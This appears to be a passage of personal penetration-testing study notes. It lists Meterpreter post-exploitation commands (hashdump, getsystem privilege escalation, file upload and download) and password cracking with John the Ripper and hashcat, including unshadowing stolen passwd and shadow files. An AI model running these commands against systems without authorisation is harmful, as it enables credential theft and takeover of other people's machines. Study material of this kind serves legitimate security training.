 ```bash
[in the attack machine] eog /path of the screenshoot
download <file> or  "/path"
upload <file> /path
sysinfo
ps #running proccess
whoami /priv
help #to see all commands
hashdump
search -f <file>
```

```bash
getuid #WINXP-ftp
getsystem >> this give us escalate privileges, now we are NT AUTHORITY\SYSTEM
getuid #AUTHORITY\SYSTEM
sysinfo
```


## JOHN
bruteforce:

```bash
--list=formats  #to see all formats available
```
after get the shadow and passwd files:
```bash
unshadow passwd shadow > crackme
```

```bash
john -incremental -users:victim crackme
john --show crackme #to see the result
```

dictionary:
```bash 
john -w=/<wordlist> <file>
-rules #to add mangling example PASSWORD in the wordlist, mangling = password, passw0rd etc
```


rainbow tables:
- tools: ophcrack #its used only for Windows


## HASHCAT
can use rules as well, to implement certain variations to the normal dictionaries;
example:

```bash 
password/p4ssw0rd/PAssWord!/123password etc

```

# NETWORK ATTACKS
